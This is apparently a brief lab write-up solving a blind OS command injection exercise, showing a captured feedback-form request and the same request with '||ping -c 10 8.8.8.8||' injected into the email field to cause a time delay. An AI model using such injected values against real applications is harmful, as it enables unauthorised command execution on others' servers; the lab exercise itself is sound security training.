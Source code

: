 # Blind OS command injection with time delays

## This lab contains a blind [OS command injection] vulnerability in the feedback function.

## The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

## To solve the lab, exploit the blind OS [command injection] vulnerability to cause a 10 second delay.

---

### step 1

```javascript
csrf=FYQE1u0gv94XVbuNZ2k2zbN4JoqjosCK&name=majnu&email=jemof16874%40jobsfeel.com&subject=testinh&message=hi+hello+who+are+you
```

### step2

ping -c 10 8.8.8.8

```
||ping+-c+10+8.8.8.8||
```

```javascript
csrf=FYQE1u0gv94XVbuNZ2k2zbN4JoqjosCK&name=majnu&email=jemof16874%40jobsfeel.com||ping+-c+10+8.8.8.8||&subject=testinh&message=hi+hello+who+are+you
```
